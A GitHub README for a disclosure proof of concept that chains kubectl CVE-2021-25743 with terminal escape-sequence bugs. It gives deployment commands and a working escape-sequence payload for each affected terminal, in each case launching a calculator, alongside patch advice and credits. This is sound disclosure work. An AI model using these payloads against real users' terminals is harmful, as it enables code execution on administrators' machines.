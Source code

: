 # Kubectl escape character handling PoC

This is a proof of concept for [CVE-2021-25743][cve-2021-25743] combined with a
selection of terminal vulnerabilities I found that can achieve remote code
execution across several client platforms (some common, some less so). It is
delivered as a very simple Docker image for ease of testing.

## An imaginary scenario

Container escapes usually need a bug in the container infrastructure, like a
kernel bug or another bug in a subsystem like runc.

If an attacker is unable to abuse those, they may look for more creative means.
This is one such method, it relies on a pod crashing and the administrator
attempting to debug it, while using a terminal with a vulnerability.

In Kubernetes `/dev/termination-log` is world writable within the container and
it's very trivial to crash a container (e.g. run it out of memory). This means
if an attacker finds a way to make an application write to that file and also
DoS an application, they can potentially make the administrator start looking
(to see what the problem is, e.g. prompted by an alert) and in the process of
doing that, the administrator could get attacked, with code execution achieved
on their client machine.

This means the container does not need Kubernetes API access of any kind, a
common way to reduce Kubernetes attack surface is to [turn off the service
account secret][apicred] which is automatically mounted in each pod. The issue
with `/dev/termination-log` is not new, Trail of Bits covered it in their [2019
audit of Kubernetes][2019audit] and a [PR is open][pr108076] to tighten the
permissions.

## Usage

_Only use this on systems you have permission to test._

With kubectl configured with a cluster and namespace you have access to create
pods in, simply:

```
kubectl run --image=davidgl/houdini-kubectl-poc kubectl-poc
sleep 10  # or however long the cluster take to schedule the pod
kubectl describe kubectl-poc
```

The pod deliberately crashes. Manual cleanup is needed; delete the
pod when finished:

```
kubectl delete pod/kubectl-poc
```

## CVEs

This primarily targets Kubectl's CVE-2021-25743. It needs to be combined with a
terminal vulnerability to have any effect though. Some examples are:

- xterm font OSC ([CVE-2022-45063][CVE-2022-45063])

  `"\e]50;i$(xcalc&)\a\e]50;?\a"`

- iTerm2 DECRQSS ([CVE-2022-45872][CVE-2022-45872])

  `"\eP$q;open -a Calculator\r\e\\\eP$q\e\\"`

- ConEmu title ([CVE-2022-46387][CVE-2022-46387])

  `"\e]0;\rcalc.exe\r\e\\\e[21t"`

- Windows Terminal WSL directory ([CVE-2022-44702][CVE-2022-44702])

  `"\e]9;9;/" calc.exe "o /\e\\"`

- Some colour (not a terminal vulnerability, test for CVE-2021-25743 alone)

  `"\e[31mIf you see this in red your kubectl is not fixed against CVE-2021-25743\e[m"`

The list above contains escape sequences in C-style strings, as this section of
the readme is expanded and written to /dev/termination-log, see
[Dockerfile](Dockerfile).

Note the last entry is not a terminal vulnerability, but an attacker could
still use it in an attempt to social engineer the administrator, e.g. change
something else on screen (cursor movement sequences means they can change lines
above where the text is actually output).

## I'm vulnerable, help?

- Update to kubectl of at least 1.26;
- Update your terminal

## Disclosure

All of the terminal bugs were responsibly disclosed to the authors of the
affected software and have now been fixed for several months.

Several of these exploits were shared with the Kubernetes Security team in
advance for awareness, in general the bugs are in terminals, so while Kubectl
should (and now does, at least in this case) escape these characters, the
reason the issues turn out to be severe are because of the more severe bugs in
terminals.

## Credits

- Eviatar Gerzi for [finding the kubectl issue][cyberark-title] originally;
- [G-Research Open Source](https://opensource.gresearch.co.uk/) for letting me research this;
- All the terminal authors for fixing things.

[cve-2021-25743]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-25743
[CVE-2022-45063]: https://www.openwall.com/lists/oss-security/2022/11/10/1
[CVE-2022-45872]: https://nvd.nist.gov/vuln/detail/CVE-2022-45872
[CVE-2022-44702]: https://github.com/microsoft/terminal/releases/tag/v1.15.2874.0
[CVE-2022-46387]: https://gist.github.com/dgl/05ca60cdc7efc9e47bbc58d0c952635e
[pr108076]: https://github.com/kubernetes/kubernetes/pull/108076
[apicred]: https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/#opt-out-of-api-credential-automounting
[2019audit]: https://github.com/kubernetes/sig-security/blob/6f1cec8878c705b67982e9b3bf3b52d6f19e17e0/sig-security-external-audit/security-audit-2019/findings/Kubernetes%20Final%20Report.pdf
[cyberark-title]: https://www.cyberark.com/resources/threat-research-blog/dont-trust-this-title-abusing-terminal-emulators-with-ansi-escape-characters
